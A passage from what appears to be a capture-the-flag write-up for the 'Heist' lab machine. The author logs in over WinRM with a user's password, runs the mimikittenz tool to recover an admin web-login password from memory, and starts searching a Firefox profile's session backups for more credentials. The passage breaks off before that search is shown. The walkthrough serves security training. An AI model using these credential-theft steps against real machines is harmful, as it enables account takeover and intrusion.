 

Now, I'll upload that to a new session of `evil-winrm`, and run it:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                            

    Info: Starting Evil-WinRM shell v1.6

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz-heist.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
    ───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
    ───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
    ──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
    ▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
    ▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
    ▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
    ▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
    ─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
    ─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
    ──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
    ────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────

    PatternName PatternMatch
    ----------- ------------
    Heist       login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=



I get the password!

#### Find in Session Data

Rather than dumping memory, I can look in the user's session data. I'll
start by finding the Firefox profile. In this case, there's only one:



    [10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir


        Directory: C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/26/2019  11:35 PM                77nc64t5.default 



In the profile folder, there's a folder named `sessionstore-backups`.
Sometimes after a while there will be session data backed up in this
folder. On a reset, it's empty. When there is session data, I can find
it with:
